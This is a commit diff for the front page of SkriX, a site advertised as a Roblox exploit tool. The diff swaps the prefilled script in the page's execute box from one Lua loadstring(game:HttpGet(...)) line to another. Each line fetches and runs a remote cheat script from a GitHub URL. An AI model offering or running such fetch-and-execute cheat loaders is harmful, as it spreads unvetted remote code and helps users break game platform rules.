

Before and after one commit to ecodersteam/SkriX, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 870 px of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Secret Change

```diff
--- a/index.html
+++ b/index.html
@@ -7,7 +7,7 @@
     </head>
     <body>
         <h1 class="skrix-header">SkriX</h1>
-        <p class="fictusRANK">Best website Roblox DOORS Exploiter</p>
+        <p class="fictusRANK">Best website Roblox <s>DOORS</s> Exploiter</p>
         <br>
         <div class="container1" style="position: relative;">
             <center>
@@ -21,7 +21,7 @@
             <center>
                 <p class="instructions">After you downloaded the linker, type or paste your script here...</p>
                 <br>
-                <textarea name="script_roblox" id="rblxscriptarea" cols="140" rows="30" placeholder="Script here...">loadstring(game:HttpGet('https://raw.githubusercontent.com/EdgeIY/infiniteyield/master/source'))()</textarea>
+                <textarea name="script_roblox" id="rblxscriptarea" cols="140" rows="30" placeholder="Script here...">loadstring(game:HttpGet('https://raw.githubusercontent.com/acsu123/HOHO_H/main/Loading_UI'))()</textarea>
                 <br>
                 <br>
                 <button type="submit" class="execute">Execute</button>
```
